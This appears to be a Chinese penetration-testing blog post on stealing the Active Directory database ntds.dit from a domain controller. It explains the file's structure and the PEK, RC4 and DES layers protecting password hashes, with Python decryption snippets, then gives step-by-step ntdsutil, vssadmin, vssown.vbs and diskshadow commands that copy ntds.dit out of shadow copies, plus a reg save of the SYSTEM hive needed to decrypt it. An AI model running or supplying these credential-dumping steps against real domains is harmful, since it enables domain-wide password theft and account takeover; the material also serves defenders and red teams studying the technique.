内网渗透 | 利用拷贝卷影提取ntds.dit
0x01 前言
通常情况下，即使拥有管理员权限，也无法读取域控制器中的C:\Windows\NTDS\ntds.dit文件。那么什么是ntds.dit呢？
ntds.dit文件是一个数据库，用于存储Active Directory数据，包括有关用户对象，组和组成员身份的信息。它包括域中所有用户的密码哈希。通过提取这些哈希值，可以使用诸如Mimikatz之类的工具执行哈希传递攻击，或使用诸如Hashcat之类的工具来破解这些密码。这些密码的提取和破解可以脱机执行，因此将无法检测到。一旦攻击者提取了这些散列，它们便可以充当域上的任何用户，包括域管理员。
在活动目录中，所有的数据都保存在ntds.dit中。ntds.dit是一个二进制文件，存储位置为域控制器的%SystemRoot%\ntds\ntds.dit。ntds.dit中包含用户名、散列值、组、GPP、OU等与活动目录相关的信息。它和SAM文件一样，是被操作系统锁定的。在一般情况下系统运维人员会利用卷影拷贝服务（volume Shadow Copy Server，VSS）实现ntds.dit的拷贝，VSS本质上属快照（Snamshot）技术的一种，主要用于备份和恢复（即使目标文件被系统锁定）。

一般域环境内最重要的三个文件如下：
ntds.dit文件位置: C:\Windows\NTDS\NTDS.ditsystem文件位置:C:\Windows\System32\config\SYSTEMsam文件位置:C:\Windows\System32\config\SAM
0x02 ntds.dit深入剖析
Active Directory域数据库存储在ntds.dit文件中（默认情况下存储在c：\ Windows \ NTDS中，但通常存储在其他逻辑驱动器上）。AD数据库是一个Jet数据库引擎，它使用可扩展存储引擎（ESE）提供数据存储和索引服务。通过ESE级别索引，可以快速定位对象属性。ESE确保数据库符合ACID（原子，一致，隔离和持久）–事务中的所有操作都已完成或不执行。AD ESE数据库非常快速且可靠。
注意：Microsoft还将Jet数据库用于Exchange邮箱数据库。
Active Directory通过基于LRU-K算法的缓存将部分ntds.dit文件加载到（LSASS保护的）内存中，以确保最常访问的数据在内存中，以提高性能，从而第二次提高读取性能。数据库更改是在内存中执行的，然后写入事务日志，然后稍后对数据库文件进行延迟提交。检查点文件（edb.chk）会跟踪到此刻写入的事务。
“版本存储”是从内存中读取数据时对象实例的副本，这使得无需更改读取数据即可执行更新（ESE事务视图）。读取操作完成后，该版本存储实例将结束。
尽管Active Directory由三个目录分区（域，配置和架构）组成，但这只是数据库数据的抽象视图。ntds.dit文件由三个主要表组成：数据表，链接表和SD表。
数据表
数据表包含Active Directory数据存储中的所有信息：用户，组，特定于应用程序的数据，以及安装后在Active Directory中存储的任何其他数据。可以将数据表视为具有行（每个代表对象的实例，例如用户）和列（每个代表模式中的属性，例如GivenName）。）。对于模式中的每个属性，表均包含一列，称为字段。字段大小可以是固定的或可变的。固定大小的字段包含整数或长整数作为数据类型。可变大小字段通常包含字符串类型，例如Unicode字符串。数据库仅分配可变大小字段所需的空间：1个字符的Unicode字符串为16位，10个字符的Unicode字符串为160位，依此类推。
用于存储对象的数据库空间取决于为其设置值的属性的数量和值的大小。例如，如果管理员创建了两个用户对象（User1和User2），仅在其上设置了最小属性，然后向User2添加了10个字符的描述，则User2空间比User1空间大80个字节（20个字节）。10个字符的字节数，以及新生成的属性上的元数据）。
数据库记录不能跨越数据库页面；因此，每个对象被限制为8 KB。但是，对象的某些属性值不能完全计入此限制。长度可变的长值可以存储在与对象记录不同的页面上，仅留下9字节的引用。这样，一个对象及其所有属性值可以大于8 KB。
链接表
链接表包含代表链接属性的数据，这些属性包含引用Active Directory中其他对象的值。一个示例是用户对象上的MemberOf属性，其中包含引用用户所属组的值。链接表比数据表小得多。
SD表
SD表包含代表每个对象的继承的安全描述符的数据。随着Windows Server 2003或更高版本中SD表的引入，继承的安全描述符不再必须在每个继承安全描述符的对象上重复。取而代之的是，继承的安全描述符存储在SD表中，并链接到适当的对象。
Active Directory中使用的密码哈希加密
请注意，在上一个列表中，有许多字段被描述为已加密。这种加密的目的是提供针对脱机数据提取的保护。
Microsoft为提供这种保护而引入的解决方案很复杂，由3层加密组成，其中2层使用RC4，第三层使用DES。
为了解密存储在NTDS.DIT中的哈希，必须执行以下步骤：
1.使用启动密钥（RC4-第1层）解密PEK（密码加密密钥）
2.第一轮哈希解密（使用PEK和RC4-第2层）
3.第二轮哈希解密（DES-第3层）
密码加密密钥
PEK或密码加密密钥用于加密NTDS.DIT中存储的数据。该密钥在整个域中都是相同的，这意味着在所有域控制器上它都是相同的。PEK本身也以加密形式存储在NTDS.DIT中。为了对其进行解密，将需要来自获得NDTS.DIT文件的同一域控制器中的注册表（SYSTEM配置单元）。这是因为PEK是使用BOOTKEY加密的，该BOOTKEY在所有域控制器（实际上在域中的所有计算机）上都是不同的。
为了解密PEK，必须从NTDS.DIT获取ATTk590689字段。如前所述，存储在数据库中的所有对象都将具有此字段。为了确定需要哪一个，必须检查该值是否为空。
该值的长度为76个字节（存储为二进制数据）。值的结构如下：
标头8字节
RC4的密钥材料16字节
加密的PEK 52字节
解密后，解密后的PEK的值也可以分为2部分。人们将不得不跳过前36个字节（因此实际PEK密钥的长度为16个字节）。
这是可用于在获得启动密钥后将PEK密钥解密的python算法：
md5 = MD5.new（）md5.update（bootkey）for i in range（1000）：md5.update（enc_pek [0:16]）rc4_key = md5.digest（）;rc4 = ARC4.new（rc4_key）pek = rc4.encrypt（enc_pek [16：]）return pek [36：]
可以看到解密中有一个MD5散列部分，包含1000轮回合。这是为了使对密钥的暴力攻击更加耗时。
密码哈希解密
现在，PEK已解密，下一个任务是解密存储在用户对象的ATTk589879（加密的LM哈希）和ATTk589914（加密的NT哈希）属性中的哈希。
第一步是删除RC4加密层。在此期间，将PEK密钥和加密哈希的前16个字节用作RC4密码的密钥材料。下面是NTDS.DIT数据库中存储的40字节长的加密哈希值的结构。
标头8字节RC4的密钥材料16字节加密的哈希16字节
删除RC4加密层的算法如下：
md5 = MD5.new（）md5.update（pek）md5.update（enc_hash [0:16]）rc4_key = md5.digest（）;rc4 = ARC4.new（rc4_key）denc_hash = rc4.encrypt（enc_hash [16：]）
最后一步是删除DES加密层，该层实际上与在注册表中存储密码散列的情况下使用的所谓“标准” SYSKEY加密非常相似（有关算法的详细信息，请参见此处– http：// moyix .blogspot.com / 2008/02 / syskey-andsam.html）。
下面是算法的最后一部分：
（des_k1，des_k2）= sid_to_key（rid）d1 = DES.new（des_k1，DES.MODE_ECB）d2 = DES.new（des_k2，DES.MODE_ECB）hash = d1.decrypt（denc_hash） [：8]）+ d2.decrypt（denc_hash [8：]）
注意，必须具有用户的SID才能确定RID并计算用于DES的密钥。
0x03 抓取ntds.dit
1.通过ntdsutil.exe提取ntds.dit
创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
挂载快照
ntdsutil snapshot "mount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit
复制ntds.dit
copy C:\$SNAP_202104180958_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
可以看到在c盘下面已经把ntds.dit复制了出来

点进去看一下是完全一样的

卸载快照
ntdsutil snapshot "unmount {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit
删除快照
ntdsutil snapshot "delete {b425cef1-c73c-4be5-ad86-522c27a18180}" quit quit
2.利用vssadmin提取ntds.dit
创建C盘的卷影拷贝
vssadmin create shadow /for=c:
卷影副本 ID: {6d2ab801-10ca-4890-8b89-e8051ddf0286}
卷影副本卷名: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
在创建的卷影拷贝中将ntds.dit复制出来
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit
此时在C盘目录下发现ntds.dit已经被复制出来

删除快照
vssadmin delete shadows /for=c: /quiet
3.利用vssown.vbs提取ntds.dit
vssown.vbs
github链接:
https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs
首先查找一下ntds.dit的位置
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
启动卷影拷贝服务
cscript //nologo vssown.vbs /start
创建一个C盘的卷影拷贝
cscript vssown.vbs /create c
列出当前卷影拷贝
cscript vssown.vbs /list
可以看到id为{F27E8849-8BFD-44E1-B6D7-C851198E971D}，存储位置为\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3
复制ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit c:\ntds.dit

删除卷影拷贝
cscript vssown.vbs /delete {F27E8849-8BFD-44E1-B6D7-C851198E971D}
4.使用diskshadow导出ndts.dit
可以使用diskshadow.exe来执行命令。
例如，将需要执行的命令“exec c:\windows\system\calc.exe”写入c:\command.txt文件
echo exec c:\windows\system32\calc.exe > command.txttype command.txt
使用diskshadow执行txt中的命令
diskshadow /s command.txt
diskshadow也可以用来导出ntds.dit，将如下命令写入一个文件中去执行
//设置卷影拷贝set context persistent nowriters//添加卷add volume c: alias someAlias//创建快照create//分配虚拟磁盘盘符expose %someAlias% z://将ntds.dit复制到C盘中exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit//删除所有快照delete shadows all//列出系统中的卷影拷贝list shadows all//退出resetexit
执行如下命令，注意这里需要进入C:\Windows\System32目录下执行，否则会报错
diskshadow /s C:\command.txt
导出ntds.dit后，可以将system.hive转储。因为system.hive中存放着ntds.dit 的密钥，所以没有该密钥，将无法查看ntds.dit中的信息
reg save hklm\system c:\windows\temp\system.hive
0x03 后记
从不同的角度来看，Active Directory具有三种类型的数据
关于一个CAN存储在AD中的对象和属性的架构信息定义详细信息复制到所有域控制器，本质上是静态的。
复制到域中的所有域控制器，对象部分成为全局目录的一部分，属性值(实际的大量数据)仅在域内复制。
跨域中的域控制器，ntds.dit的大小通常会不同。Active Directory是一个独立于多主机的模型，其中每个AD中都发生更新，并且随着时间的推移这些更改被复制到其他域控制器。更改后的数据将在域控制器之间而不是数据库之间复制，因此不能保证所有域控制器上的文件大小都相同。

推荐阅读：
本月报名可以参加抽奖送暗夜精灵6Pro笔记本电脑的优惠活动

点赞，转发，在看
原创投稿作者：Drunkmars